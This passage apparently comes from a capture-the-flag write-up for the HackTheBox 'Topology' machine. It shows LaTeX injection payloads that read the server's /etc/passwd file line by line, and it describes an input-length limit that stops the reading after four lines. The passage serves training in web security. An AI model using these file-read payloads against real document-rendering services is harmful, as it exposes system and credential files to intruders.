 ```latex
\newread\file\openin\file=/etc/passwd\read\file to\line\text{\line}\closein\file
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-topology/2023-10-14 04_43_01-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>First line of /etc/passwd</i></center>
<br/>

Following this attempt, I duplicated the payload to read multiple lines. However, I was only successful in reading the first **4** lines of the file. Trying to read more than **4** lines triggers the message '`Input too long. Sorry`' as there is an input limitation in the backend to prevent long inputs. <br/>

* Reading the first 4 lines of the `/etc/passwd` file:
```latex
\newread\file\openin\file=/etc/passwd\read\file to\line\text{\line}\read\file to\line\text{\line}\read\file to\line\text{\line}\read\file to\line\text{\line}\closein\file
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-topology/2023-10-14 05_03_33-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>First 4 lines of /etc/passwd</i></center>
<br/>

* Reading the first 5 lines of the `/etc/passwd` file:
```latex
\newread\file\openin\file=/etc/passwd\read\file to\line\text{\line}\read\file to\line\text{\line}\read\file to\line\text{\line}\read\file to\line\text{\line}\read\file to\line\text{\line}\closein\file
```
